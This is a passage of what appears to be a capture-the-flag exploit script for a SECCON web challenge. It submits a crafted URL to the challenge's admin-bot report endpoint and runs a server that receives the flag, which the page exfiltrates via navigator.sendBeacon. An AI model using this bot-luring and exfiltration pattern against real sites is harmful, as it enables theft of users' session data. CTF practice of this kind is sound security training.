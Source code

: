 ```javascript
    // .html -> Content-Type: text/html
    // ref. https://github.com/broofa/mime/blob/main/types/standard.js
    ".html";

  if (noteId.length > 100) {
    // ref. https://github.com/delvedor/find-my-way/blob/v7.3.0/index.js#L87
    fail(`Too long id: ${noteId}`);
  }
  if (
    noteId.includes("..") ||
    noteId.includes("/") ||
    noteId.includes("\\") ||
    noteId.includes("%")
  ) {
    fail(`Invalid id: ${noteId}`);
  }

  const baseUrl = "http://web:3000";

  const reportedUrl = `${ATTACK_BASE_URL}/index.html?${new URLSearchParams({
    baseUrl,
    noteId,
  })}`;

  const res = await (
    await fetch(`${SECCON_BASE_URL}/report`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        url: reportedUrl,
      }),
    })
  ).text();
  console.log(res); // "Received :)"
};

const fastify = require("fastify")();

fastify.register(require("@fastify/static"), {
  root: path.join(__dirname, "public"),
});

fastify.post("/", async (req, reply) => {
  // Received data from navigator.sendBeacon
  console.log(req.body); // Got a flag!
  process.exit(0);
});

const start = async () => {
  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) {
        fastify.log.error(err);
        process.exit(1);
      }

      await sleep(1 * 1000);
      await exploit();
      await sleep(10 * 1000);
      fail("Failed");
```